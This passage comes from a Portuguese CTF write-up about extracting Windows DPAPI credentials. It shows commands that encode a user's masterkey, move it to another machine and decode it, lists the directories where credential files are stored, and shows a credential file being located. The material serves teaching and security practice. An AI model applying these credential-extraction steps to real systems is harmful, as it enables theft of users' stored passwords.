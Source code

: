 ```powershell
wFktBtcUye6P40ztUGLEEgIAAABLtt2bW5ZW2Xt48RR5ZFf0+EMAAA6AAAAQZgAA
D+azql3Tr0a9eofLwBYfxBrhP4cUoivLW9qG8k2VrQM2mlM1FZGF0CdnQ9DBEys1
/a/60kfTxPX0MmBBPCi0Ae1w5C4BhPnoxGaKvDbrcye9LHN0ojgbTN1Op8Rl3qp1
Xg9TZyRzkA24hotCgyftqgMAAADlaJYABZMbQLoN36DhGzTQ
-----END CERTIFICATE-----
PS C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001>
```

    Com o conteúdo encodado, podemos pegar e passar para nossa máquina, descodar e gerar o arquivo binário da Masterkey.

```bash
echo "AgAAAAAAAAAAAAAAMAA3ADkAMgBjADMAMgBlAC0ANAA4AGEANQAtADQAZgBlADMALQA4AGIANAAzAC0AZAA5ADMAZAA2ADQANQA5ADAANQA4ADAAAAAAAAAAAAAFAAAAsAAAAAAAAACQAAAAAAAAABQAAAAAAAAAAAAAAAAAAAACAAAAnFHKTQBwjHPU
+/9guV5UnvhDAAAOgAAAEGYAAOePsdmJxMzXoFKFwX+uHDGtEhD3raBRrjIDU232E+Y6DkZHyp7VFAdjfYwcwq0WsjBqq1bX0nB7DHdCLn3jnri9/MpVBEtKf4U7bwszMyE7Ww2Ax8ECH2xKwvX6N3KtvlCvf98HsODqlA1woSRdt9+Ef2FVMKk4lQEq
OtnHqMOcwFktBtcUye6P40ztUGLEEgIAAABLtt2bW5ZW2Xt48RR5ZFf0+EMAAA6AAAAQZgAAD+azql3Tr0a9eofLwBYfxBrhP4cUoivLW9qG8k2VrQM2mlM1FZGF0CdnQ9DBEys1/a/60kfTxPX0MmBBPCi0Ae1w5C4BhPnoxGaKvDbrcye9LHN0ojgb
TN1Op8Rl3qp1Xg9TZyRzkA24hotCgyftqgMAAADlaJYABZMbQLoN36DhGzTQ" | base64 -d > MASTERKEY
```

    Com o arquivo MASTERKEY em mãos, partimos para os de Credenciais.

> Credentials - Locais Possíveis

```bash
C:\Users\USER\AppData\Roaming\Microsoft\Credentials\
C:\Users\USER\AppData\Local\Microsoft\Credentials\
```

    Neste CTF, podemos encontrar o SID entrando no diretório `AppData\Roaming\Microsoft\Credentials` do usuário "security".

```powershell
PS C:\Users\security>cd AppData\Roaming\Microsoft\Credentials\
PS C:\Users\security\AppData\Roaming\Microsoft\Credentials> ls -force


    Directory: C:\Users\security\AppData\Roaming\Microsoft\Credentials


Mode                LastWriteTime     Length Name                                                                                                                                           
----                -------------     ------ ----                                                                                                                                           
-a-hs         8/22/2018  10:18 PM        538 51AB168BE4BDB3A603DADE4F8CA81290                                                                                                               


PS C:\Users\security\AppData\Roaming\Microsoft\Credentials>
```

    Com o arquivo encontrado, podemos utilizar a mesma técnica de conversão usada para a masterkey.

> Conversão
